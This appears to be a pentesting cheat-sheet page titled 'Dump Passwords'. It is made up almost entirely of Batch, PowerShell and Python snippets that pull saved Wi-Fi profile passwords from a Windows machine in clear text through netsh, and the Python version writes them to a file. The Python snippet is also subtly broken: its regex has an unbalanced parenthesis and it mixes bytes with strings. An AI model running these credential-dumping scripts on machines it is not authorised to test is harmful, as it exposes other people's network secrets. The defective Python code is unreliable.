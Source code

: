 # Dump Passwords

## Batch

```batch
@echo off
cd /d "%~dp0"
for /f "skip=9 tokens=1-4* delims= " %a in ('netsh.exe wlan show profiles') do @netsh.exe wlan show profile name="%e" key=clear | findstr.exe /c:"SSID name" /c:"Key Content" && echo.
```

## PowerShell

```powershell
(netsh.exe wlan show profiles) | Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | ForEach-Object {(netsh.exe wlan show profile name="$name" key=clear)}  | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Format-Table -AutoSize
```

## Python

```python
import subprocess
import re

command = "netsh.exe wlan show profiles"
known_networks = subprocess.check_output(command, shell=True)
network_list = re.findall(b'(?:Profile\s*:\s(.*)', known_networks)

output = ""
for network in network_list:
    credentials = "netsh.exe wlan show profile " + network + " key=clear"
    # output += str(subprocess.check_output(credentials, shell=True))
    output += subprocess.check_output(credentials, shell=True).decode('utf-8')

buffer = open("wifi_credentials.txt", 'w')
buffer.write(output)
buffer.close()
```

---
## References

### Jakoby

- [Jakoby: Wifi-Info](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers/blob/main/Functions/Wifi-Info.md)

### InfoSec Matter

- [InfoSec Matter: Powershell Commands for Pentesters](https://www.infosecmatter.com/powershell-commands-for-pentesters/)